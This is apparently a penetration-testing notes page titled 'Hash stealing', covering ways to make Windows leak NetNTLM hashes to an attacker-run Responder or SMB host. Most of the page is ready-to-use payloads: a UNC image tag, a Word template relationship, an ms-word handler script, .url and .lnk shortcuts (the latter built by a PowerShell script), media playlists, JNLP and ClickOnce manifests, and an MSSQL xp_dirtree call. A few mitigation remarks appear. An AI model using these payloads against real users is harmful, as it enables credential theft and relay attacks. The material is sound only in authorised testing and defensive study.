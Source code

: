 ```yaml
---
title: "Hash stealing"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


## Internet Explorer & Edge

While the `dir` command can be used to leak hashes, it is not very convenient method for an attacker. A more likely scenario would be if the attacker entices the victim to visit the attacker's website or open a specially crafted file. As is widely known, Internet Explorer can leak NetNTLM hashes to websites containing embedded content (eg, images, stylesheets) loaded from a UNC path. This also applies to Microsoft Edge, which can be abused in the same way. This can be tested using the following HTML:

**_[leak.htm](https://www.datocms-assets.com/21957/1592981084-leak.htm):_**

```html
<!DOCTYPE html>
<html>
	<img src="file://<responder ip>/leak/leak.png"/>
</html>
```

## Office

Another well-known attack is by abusing Office. Office documents can contain links to external content that when pointed to a network share can result in disclosing NetNTLM hashes. For example, a Word document can contain a link to a template file located on a share. The template file can be set via the `word\_rels\settings.xml.rels` file located in the `DOCX` file.

_**[word_rels\settings.xml.rels](https://www.datocms-assets.com/21957/1592981117-leak.docx):**_

```html
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
	<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file://<responder ip>/leak/Template.dotx" TargetMode="External"/>
</Relationships>
```

![](https://www.datocms-assets.com/21957/1592477905-wordntlmleaktemplate.png) 
_Figure 2: leak NetNTLM hashes using Word_

It should be noted that this particular trick doesn't work if the Word document is opened in Protected View. This is normally the case if the document is opened from a website or opened from an email message.

## Living off the land

If no mitigations have been applied, it is not very hard to trick Windows to leak hashes. Essentially any document format that allows loading of external files from UNC paths should be affected by this flaw. To get an idea how easy it is to find such methods, a number of them are listed below. This is by far an exhaustive list, it just demonstrates how prevalent this issue is. Of course an attacker still needs to entice the user into performing a certain action.

## URL handlers

Besides abusing files there are other ways to force applications to open files from (rogue) network shares. One such way is with the use of URL handlers. A large number of applications register custom URL schemes. For example, Word registers the `ms-word` URL scheme. This scheme accepts a path that can be used to cause Word to try to open a file from a UNC path. Consequently, the `ms-word` URL scheme can be used to steal NetNTLM hashes. Other URL handlers can be abused in a similar manner.

```html
<!DOCTYPE html>
<html>
	<script>
		location.href = 'ms-word:ofe|u|\\<responder ip>\leak\leak.docx';
	</script>
</html>
```

## Internet Shortcut

Another trick is to just create a shortcut to the rogue share. Windows has a special `URL` file type that is used to create shortcuts to webpages. A simple version looks something like this:

**_[leak.url](https://www.datocms-assets.com/21957/1592981144-leak.url):_**

```
[InternetShortcut]
URL=file://<responder ip>/leak/leak.html
```

It is possible to assign an icon to this shortcut. When Windows Explorer encounters a URL file it will automatically parse it to see if there is an icon associated to the shortcut. Setting the icon to an UNC path will cause Windows Explorer to try and load it, again leaking hashes. This happens when the user just browses to the folder containing the URL file. So if an attacker managers to drop a URL file in the user's download folder, hashes are leaked every time the user views the download folder in Explorer. Similar attacks are possible using other shortcut type of file formats, which is also useful with USB drops.

**_leak2.url:_**

```
[InternetShortcut]
URL=https://securify.nl
IconIndex=0
IconFile=\\<responder ip>\leak\leak.ico
```

## Windows Media Player

Media players tend to support many audio and video file formats and playlists. Playlists can be seen as a collection of links to external files, including files located on network shares. Naturally this can be abused to steal NetNTLM hashes. Windows Media Player is no exception, opening a specially crafted playlist in Windows Media Player can potentially disclose hashes to an attacker.

_**[leak.m3u](https://www.datocms-assets.com/21957/1592981177-leak.m3u):**_

```
#EXTM3U
#EXTINF:1337, Leak
\\<responder ip>\leak.mp3
```

_**[leak.asx](https://www.datocms-assets.com/21957/1592981202-leak.asx):**_

```html
<asx version="3.0">
	<title>Leak</title>
	<entry>
		<title></title>
		<ref href="file://<responder ip>/leak/leak.wma"/>
	</entry>
</asx>
```

_**[leak.wax]:**

```sh
https://10.8.3.12/test
file://\\10.8.3.12/steal/file
```
## Java Web Start

Many enterprise still use Java applications. There is a good chance that they also have Java Web Start enabled. Java Web Start allows users to start Java applications from the internet using a browser. A Java Web Start application is launched by opening a JNLP file. JNLP files are XML files that define how the application should be started. It also contains links to one or more JAR files. These JAR files could be located on network shares thus are a good target for leaking hashes.

_**[leak.jnlp](https://www.datocms-assets.com/21957/1592981769-leak.jnlp):**_

```html
<?xml version="1.0" encoding="UTF-8"?>
<jnlp spec="1.0+" codebase="" href="">
	<resources>
		<jar href="file://<responder ip>/leak/leak.jar"/>
	</resources>
	<application-desc/>
</jnlp>
```

It should be noted that while JNLP files can be opened from a browser they are block by Microsoft Outlook on Windows. JNLP files are allowed on Outlook for macOS though.

![](https://www.datocms-assets.com/21957/1592477933-outlookblocksjnlp.png) _Figure 3: JNLP files are blocked in Outlook_

## ClickOnce

.NET's counterpart to Java Web Start is named ClickOnce. It works in a similar manner, applications are started via a ClickOnce deployment manifest file. These files can also contain UNC paths, similar to Java Web Start. Remarkably, ClickOnce deployment manifests are not blocked by Outlook.

![](https://www.datocms-assets.com/21957/1592477936-outlookclickonceallowed.png) _Figure 4: ClickOnce deployment manifest files are not blocked in Outlook_

_**[leak.application](https://www.datocms-assets.com/21957/1592982308-leak.application):**_

```html
<?xml version="1.0" encoding="utf-8"?>
<asmv1:assembly xsi:schemaLocation="urn:schemas-microsoft-com:asm.v1 assembly.adaptive.xsd" manifestVersion="1.0" xmlns:dsig="http://www.w3.org/2000/09/xmldsig#" xmlns="urn:schemas-microsoft-com:asm.v2" xmlns:asmv1="urn:schemas-microsoft-com:asm.v1" xmlns:asmv2="urn:schemas-microsoft-com:asm.v2" xmlns:xrml="urn:mpeg:mpeg21:2003:01-REL-R-NS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<assemblyIdentity name="Leak.app" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<description asmv2:publisher="Leak" asmv2:product="Leak" asmv2:supportUrl="" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<deployment install="false" mapFileExtensions="true" trustURLParameters="true" />
	<dependency>
		<dependentAssembly dependencyType="install" codebase="file://<responder ip>/leak/Leak.exe.manifest" size="32909">
			<assemblyIdentity name="Leak.exe" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" type="win32" />
			<hash>
				<dsig:Transforms>
					<dsig:Transform Algorithm="urn:schemas-microsoft-com:HashTransforms.Identity" />
				</dsig:Transforms>
				<dsig:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1" />
				<dsig:DigestValue>ESZ11736AFIJnp6lKpFYCgjw4dU=</dsig:DigestValue>
			</hash>
		</dependentAssembly>
	</dependency>
</asmv1:assembly>
```
## SMB
_**[Malicious ink (SMB)]:**
- Create a malicious that connect to our responder .
```sh
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Malicious.lnk")
$lnk.TargetPath = "\\10.8.3.12\@threat.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the dir this file lives in will perform an authentication request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

## Mssql
_**[MSSQL]:**
```sh
EXEC master.sys.xp_dirtree '\\10.8.3.12\myshare',1,1
smbserver.py -smb2support share .
```

- Tool :
https://github.com/Greenwolf/ntlm_theft